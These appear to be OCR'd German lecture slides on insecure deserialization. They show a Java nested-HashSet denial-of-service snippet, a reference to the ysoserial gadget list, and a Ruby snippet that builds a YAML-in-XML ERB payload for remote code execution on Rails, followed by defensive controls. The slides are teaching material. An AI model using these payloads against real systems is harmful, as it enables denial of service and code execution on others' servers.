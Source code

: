 ## Java Serilization Attack

``` Java
Set root = new HashSet();
Set s1 = root;
Set s2 = new HashSet();
for (int i = 0; i < 100; i++) {
  Set t1 = new HashSet();
  Set t2 = new HashSet();
  t1.add("foo"); // make it not equal to t2
  s1.add(t1);
  s1.add(t2);
  s2.add(t1);
  s2.add(t2);
  s1 = t1;
  s2 = t2;
}
```

## Schlimmer: Code Execution

* Über das deserilisierierte Objekt wird Code executed
* Die verwendete Klasse muss im Zielsystem bekannt sein
* Meistens werden Konstruktoren von häufigen Bibliotheken verwendet
* Liste von Vektoren, z. B. [ysoserial](https://github.com/frohoff/ysoserial)

## Ruby on Rails Serilialisierung

```ruby
code  = File.read(ARGV[1])

# Construct a YAML payload wrapped in XML
payload = <<-PAYLOAD.strip.gsub("\n", "&#10;")
<fail type="yaml">
--- !ruby/object:ERB
  template:
      src: !binary |-
            #{Base64.encode64(code)}
	    </fail>
	    PAYLOAD
```

## Java Serialization Attack: Controls

* Deserialiseriung nicht verwenden
* Austauschen des Deserialisierers mit Custom Serializer (look-ahead)
* Serialiserungsoperationen müssen authenticated und authorized sein
* Serialisierte Objekte müssen integritätsgeschützt werden


# FIN
